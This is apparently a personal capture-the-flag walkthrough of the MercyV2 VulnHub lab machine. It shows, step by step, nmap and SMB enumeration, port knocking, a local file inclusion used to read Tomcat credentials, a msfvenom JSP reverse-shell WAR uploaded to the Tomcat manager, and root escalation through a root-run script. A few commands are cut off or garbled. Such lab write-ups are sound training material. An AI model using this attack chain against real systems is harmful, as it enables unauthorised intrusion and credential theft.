






Earlier this month i attended a local sec talk, the main event was working to resolve the MercyV2 vulnhub box.
Unfornately during the event i couldnt do the box as mac m1s dont support x86 virtual machines :P So i spent most of the night talking shit and helping teach some new cyber trainies steps on how to enumerate the box. No one finished the box or got close at the event that we know of so when i got home i took it as a challenge to finish it.
MercyV2 is a fun little box that focused on indepth enumeration and multi-account escalation. I liked it a lot.
Lets begin the walkthrough!
Lets begin with nmap on the device. I usually like to just do a quick scan to see what is running.
Nmap 192.168.253.131
open
53/tcp open domain
110/tcp open pop3
139/tcp open netbios-ssn
143/tcp open imap
445/tcp open microsoft-ds
993/tcp open imaps
995/tcp open pop3s
8080/tcp open http-proxy
cool so can see a basic range of ports available on this device. Lets scan with nmap again.
nmap -sC -sV 192.168.253.131
PORT STATE SERVICE VERSION
22/tcp filtered ssh
53/tcp open domain ISC BIND 9.9.5-3ubuntu0.17 (Ubuntu Linux)
| dns-nsid:
|_ bind.version: 9.9.5-3ubuntu0.17-Ubuntu
80/tcp filtered http
110/tcp open pop3?
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open imap Dovecot imapdimage.png
|_ssl-date: TLS randomness does not represent time
445/tcp open netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
993/tcp open ssl/imaps?
995/tcp open ssl/pop3s?
8080/tcp open http Apache Tomcat/Coyote JSP engine 1.1
| http-methods:
|_ Potentially risky methods: PUT DELETE
|_http-open-proxy: Proxy might be redirecting requests
| http-robots.txt: 1 disallowed entry
|_/tryharder/tryharder
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat
We get back some good information: Server running ssh, SMB, apache tomcat/Coyote JSP engine 1.1 I didnt wanna bruteforce this box so ill skip ssh for now. I first wanna start with reviewing the URLs that came back. See if any notes could be found there. port 80 is filter, so ignore. 8080 is open lets go check it out.
 So we confirm its running tomcat. Can see a webapp and a hostmanager! these might be useful later.
Lets check robots.  Alright ill bite  Cool this looks like a base64 string. Lets slap that into cyberchef.
SXQncyBhbm5veWluZywgYnV0IHdlIHJlcGVhdCB0aGlzIG92ZXIgYW5kIG92ZXIgYWdhaW46IGN5YmVyIGh5Z2llbmUgaXMgZXh0cmVtZWx5IGltcG9ydGFudC4gUGxlYXNlIHN0b3Agc2V0dGluZyBzaWxseSBwYXNzd29yZHMgdGhhdCB3aWxsIGdldCBjcmFja2VkIHdpdGggYW55IGRlY2VudCBwYXNzd29yZCBsaXN0LgoKT25jZSwgd2UgZm91bmQgdGhlIHBhc3N3b3JkICJwYXNzd29yZCIsIHF1aXRlIGxpdGVyYWxseSBzdGlja2luZyBvbiBhIHBvc3QtaXQgaW4gZnJvbnQgb2YgYW4gZW1wbG95ZWUncyBkZXNrISBBcyBzaWxseSBhcyBpdCBtYXkgYmUsIHRoZSBlbXBsb3llZSBwbGVhZGVkIGZvciBtZXJjeSB3aGVuIHdlIHRocmVhdGVuZWQgdG8gZmlyZSBoZXIuCgpObyBmbHVmZnkgYnVubmllcyBmb3IgdGhvc2Ugd2hvIHNldCBpbnNlY3VyZSBwYXNzd29yZHMgYW5kIGVuZGFuZ2VyIHRoZSBlbnRlcnByaXNlLg==
It's annoying, but we repeat this over and over again: cyber hygiene is extremely important. Please stop setting silly passwords that will get cracked with any decent password list.
Once, we found the password "password", quite literally sticking on a post-it in front of an employee's desk! As silly as it may be, the employee pleaded for mercy when we threatened to fire her.
No fluffy bunnies for those who set insecure passwords and endanger the enterprise.
Hmm password…… Lets go try that management page.. Welp default stuff failed!
further investigation required. Time to find out more information, we know its a linux machine and SMB so.. enum4linux to the rescue!
==========================================
| Share Enumeration on 192.168.253.131 |
==========================================
Sharename Type Comment
--------- ---- -------
print$ Disk Printer Drivers
qiu Disk
IPC$ IPC IPC Service (MERCY server (Samba, Ubuntu))
========================================================================
| Users on 192.168.253.131 via RID cycling (RIDS: 500-550,1000-1050) |
========================================================================
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\pleadformercy (Local User)
S-1-22-1-1001 Unix User\qiu (Local User)
S-1-22-1-1002 Unix User\thisisasuperduperlonguser (Local User)
S-1-22-1-1003 Unix User\fluffy (Local User)
Intersting so we have a share qui and 4 users.
pleadformercy
qiu
thisisasuperduperlonguser
fluffy
So at this point im wondering, we know from the note that bad password practices have been used before i wonder what i can get into with this. Lets see if the qiu share is useful or not.
smbclient \\\\192.168.253.131\\qiu -U qiu
Enter WORKGROUP\qiu's password:
Try "help" to get a list of possible commands.
smb: \>
Ay lets go, time for scout around. I find a .secret folder time to download it and see whats up.
reviewing the downloaded files i found a config file.
Here are settings for your perusal.
Port Knocking Daemon Configuration
[options]
UseSyslog
[openHTTP]
sequence = 159,27391,4
seq_timeout = 100
command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 80 -j ACCEPT
tcpflags = syn
[closeHTTP]
sequence = 4,27391,159
seq_timeout = 100
command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 80 -j ACCEPT
tcpflags = syn
[openSSH]
sequence = 17301,28504,9999
seq_timeout = 100
command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
tcpflags = syn
[closeSSH]
sequence = 9999,28504,17301
seq_timeout = 100
command = /sbin/iptables -D iNPUT -s %IP% -p tcp --dport 22 -j ACCEPT
tcpflags = syn
uh.. what the hell is this? ive never heard of port knocking. Time to google!
So basically its a sequence of ports to knock on which will enable access to that port. This is pretty cool.
It also explains why nmap returned filtered for port 22 and 80. Meaning that the port is open but the service is not until you knock on the port. From my research i can easily use netcat to do this. Again i only want to do port 80 for now as i want to see how i can get without ssh.
nc 192.168.253.131 159
nc 192.168.253.131 27391
nc 192.168.253.131 4
Rescanning with nmap we have access to port 80!
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 2 disallowed entries
|_/mercy /nomercy
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Ohhh we got mercy and nomercy directories now. Mercy gives us some text
Welcome to Mercy!
We hope you do not plead for mercy too much. If you do, please help us upgrade our website to allow our visitors
to obtain more than just the local time of our system.
Meanwhile visting /nomercy 
Well what the hell is this rips thing. google! Basically its a code analysis tool to detect vulns in php. intersting.. I wonder if there are any exploits for it.
searchsploit rips
--------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Exploit Title | Path
| (/usr/share/exploitdb/)
--------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
RIPS 0.53 - Multiple Local File Inclusions | exploits/php/webapps/18660.txt
Rips Scanner 0.5 - 'code.php' Local File Inclusion
Cool, we got a LFI vuln, my favorite. Its saying to visit ``/windows/code.php?file=Time for some good old burp. I wonder if we can see/etc/passwd Nice, earlier on the tomcat info i was reading that usernames and passwords can potentitally be stored intomcat-users.xml```

Ay i see some creds.
thisisasuperduperlonguser:heartbreakisinevitable
fluffy:freakishfluffybunny
Maybe we can go back to the admin page and see if we can get in.
Superlong user works!  Oh cool, a webapp that i can upload stuff to. Time to pop a shell
So searching through metasploit i found i can do this a few ways, the first is using exploit/multi/http/tomcat_mgr/upload, second is just uploading a shell manually. i wanted to play more with msfvenom so i decided to use the second method.
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.253.131 LPORT=1234 -f war -o duck.war
REMEMBER python -c 'import pty; pty.spawn("/bin/bash")' MAKES SHELL USABLE.
Upload the shell to the webapp and then run it.
whoami
tomcat7
Well thats fun. We are connected, now to see if we can get root.
su into longuser
auth fail??
ok… lets try fluffy
su fluffy
whoami
fluffy
We are the bunny.
Search around at the files and find .private wonder whats this.
Ooooooo we’ve got a bash script that is displaying the time.. Seems like when /time is visited it will display the time. this is also ran as root :D
So we can get root a few ways i guess.
- put reverse shell into timeclock
- force sudo for user
- do some tmp bash root magic..
I havnt done much of the tmp bash magic before so lets explore it.
echo "cp
wait a few minutes as visiting /time doesnt instantly trigger
woo!
id
uid=1003(fluffy) gid=1003(fluffy) euid=0(root) groups=0(root),groups=1003(fluffy)
we are root :D scan for flag.
cat author-secret.txt
Hi! Congratulations on being able to root MERCY.
The author feels bittersweet about this box. On one hand, it was a box designed as a dedication to the sufferance put through by the Offensive Security team for PWK. I thought I would pay it forward by creating a vulnerable machine too. This is not meant to be a particularly difficult machine, but is meant to bring you through a good number of enumerative steps through a variety of techniques.
The author would also like to thank a great friend who he always teases as "plead for mercy". She has been awesome. The author, in particular, appreciates her great heart, candour, and her willingness to listen to the author's rants and troubles. The author will stay forever grateful for her presence. She never needed to be this friendly to the author.
The author, as "plead for mercy" knows, is terrible at any sort of dedication or gifting, and so the best the author could do, I guess, is a little present, which explains the hostname of this box. (You might also have been pleading for mercy trying to root this box, considering its design.)
You'll always be remembered, "plead for mercy", and Offensive Security, for making me plead for mercy!
Congratulations, once again, for you TRIED HARDER!
Regards,
The Author
What a fun box.